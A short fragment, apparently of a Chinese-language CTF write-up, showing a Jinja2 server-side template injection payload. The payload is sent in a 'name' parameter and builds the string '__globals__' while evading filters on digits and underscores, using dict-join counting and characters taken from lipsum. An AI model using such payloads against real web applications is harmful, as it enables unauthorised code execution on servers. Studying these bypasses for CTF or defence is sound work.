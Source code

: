 ![alt text](image-6.png)
然后获得glboals
```
name={%set one=dict(c=a)|join|count%}
{%set two=dict(cc=a)|join|count%}
{%set three=dict(ccc=a)|join|count%}
{%set four=dict(cccc=a)|join|count%}
{%set five=dict(ccccc=a)|join|count%}
{%set six=dict(cccccc=a)|join|count%}
{%set seven=dict(ccccccc=a)|join|count%}
{%set eight=dict(cccccccc=a)|join|count%}
{%set nine=dict(ccccccccc=a)|join|count%}
{%set pop=dict(pop=a)|join%}
{%set xiahuaxian=(lipsum|string|list)|attr(pop)(three*eight)%}
{%set globals=(xiahuaxian,xiahuaxian,dict(globals=a)|join,xiahuaxian,xiahuaxian)|join%}
{%print globals%}
```
